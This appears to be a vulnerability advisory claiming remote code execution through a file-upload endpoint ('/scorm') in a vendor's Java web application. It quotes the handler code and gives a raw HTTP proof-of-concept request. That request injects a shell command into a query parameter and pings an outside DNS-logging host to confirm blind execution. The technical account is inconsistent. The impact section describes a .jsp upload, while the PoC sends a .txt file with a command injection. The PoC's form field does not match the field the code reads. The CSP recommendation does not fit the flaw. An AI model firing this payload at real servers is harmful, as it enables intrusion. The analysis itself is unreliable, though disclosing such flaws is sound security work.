




# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

## Title:  Remote Code Execution (RCE) via File Upload

### Summary:
The UploadImageController.java and FileUtil.java files in the application contain a vulnerability that can be exploited to achieve Remote Code Execution (RCE) through a crafted file upload request.

### Affected Endpoint:
`/scorm`

### Vulnerability Type:
Remote Code Execution (RCE)

### Vulnerable Code:
```java
   @RequestMapping({"/scorm"})
   @ResponseBody
   public String scorm(HttpServletRequest request, HttpServletResponse response) {
      try {
         MultipartHttpServletRequest multipartRequest = (MultipartHttpServletRequest)request;
         MultipartFile imgFile = multipartRequest.getFile("fileupload");
         if (imgFile.getName().endsWith(".jsp")) {
            return null;
         } else {
            String[] paths = FileUtil.getSavePathByRequest(request);
            JsonObject json = FileUtil.saveScormZipFile(imgFile, paths);
            logger.info("++++upload img return:" + json.get("url").getAsString());
            return json.get("url").getAsString();
         }
      } catch (Exception var7) {
         logger.error("goswf error", var7);
         return null;
      }
   }

```

### Proof of Concept (PoC):
```plaintext
POST /scorm?param=;ping 7b8f93d0.log.dnslog.myfw.us.; HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update.txt"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```



### Impact:

An attacker can upload a malicious file with a `.jsp` extension, which could lead to the execution of arbitrary code on the server. This could result in data theft, server compromise, and other serious security breaches.

### Recommendation:
1. Validate file extensions and content types to ensure that only safe file types are uploaded.
2. Implement proper input validation and sanitation to prevent code injection attacks.
3. Consider implementing a Content Security Policy (CSP) to restrict the sources from which content can be loaded on your web application.

### Conclusion:
The vulnerability in the code allows for potential Remote Code Execution (RCE) through malicious file uploads. It is crucial to address this issue promptly to prevent unauthorized access and protect the application and its users from security risks.

### References:
- OWASP File Upload Security: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- Multipart File Upload in Spring: https://spring.io/guides/gs/uploading-files/
